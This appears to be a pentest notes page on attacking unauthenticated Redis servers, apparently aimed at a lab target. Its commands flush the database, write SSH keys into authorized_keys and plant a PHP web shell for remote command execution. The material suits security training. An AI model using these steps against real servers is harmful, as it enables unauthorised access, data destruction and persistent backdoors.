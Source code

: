 # Attacking

## What is Redis
Redis is an open source (BSD licensed), in-memory data structure store, used as a database, cache and message broker. It supports data structures such as strings, hashes, lists, sets, sorted sets with range queries.

## Enumerating Redis
In a standard Redis configuration, Redis is located by default on port 6379. You can connect to Redis from the command line using Telnet like so:

	telnet 10.10.206.170 6379

Once you're in a telnet session, you can check to see if the instance is using AUTH to set a password, or if the command access is unprotected. A good way to do this is simply by echoing a message, like:

	echo "Hey no AUTH required!"

You should have the message return along with a $xyz value.

## Writing SSH Keys
If this is the case, we can drop SSH keys onto Redis to get a shell. To do this, first generate an SSH key and save it to a directory of your choosing:

	ssh-keygen -t rsa -C "crack@redis.io"

Now we've got a key. The goal is to put it into the Redis server memory, and later to transfer it into a file, in a way that the resulting authorized_keys file is still a valid one. Using the RDB format to do this has the problem that the output will be binary and may in theory also compress strings. 

To start let’s pad the public SSH key we generated with newlines before and after the content:

	(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt

Now foo.txt is just our public key but with newlines. We can write this string inside the memory of Redis using redis-cli. First, we remove any current data in the memory:

	redis-cli -h 10.10.206.170 flushall

Then, we write our file to the memory.

	cat foo.txt | redis-cli -h 10.10.206.170 -x set crackit

Then, we can dump the memory content to a file using:

	redis-cli -h 10.10.206.170
	config set dir /Users/antirez/.ssh/
	config get dir
	config set dbfilename "authorized_keys"
	save

Then we should be able to SSH into the machine using:

	ssh -i id_rsa antirez@10.10.206.170

## PHP Webshell
To do this you must know the path of the Website folder. Check the web server using manual enumeration or a tool like "whatweb" to establish the probable web server. For example, if it's apache- we can assume the path is /var/www/html.

Using this assumption, we can then set the directory and write to a file.  To test if it works, we can connect over telnet, as previously shown. Then, using the commands:

	config set dir /var/www/html
	config set dbfilename configinfo.php
	set test "<?php phpinfo(); ?>"
	save

We can check to see if we're able to write a php info file, to check this- go to the webserver and check "/configinfo.php". If we're met with a PHPInfo page, then we know we're able to write files.

We can then add in a php get variable web shell:

	config set dir /var/www/html
	config set dbfilename shell.php
	set test "<?php system($_GET['cmd']); ?>"
	save

Using this, we can run system commands using:
	
	http://10.10.206.170/shell.php?cmd=id;ifconfig

This lets us further enumerate and maybe get credentials or a shell using nc or bash. 
